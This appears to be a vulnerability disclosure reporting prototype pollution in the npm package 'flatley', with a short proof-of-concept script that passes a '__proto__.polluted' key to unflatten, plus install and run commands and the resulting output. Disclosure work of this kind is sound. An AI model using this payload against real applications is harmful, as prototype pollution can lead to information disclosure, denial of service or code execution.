 # Description

`flatley` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior using a `__proto__` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var {unflatten} = require("flatley")
unflatten({'__proto__.polluted': true});
console.log(polluted); 
```

2. Execute the following commands in another terminal:

```bash
npm i flatley # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
true
```
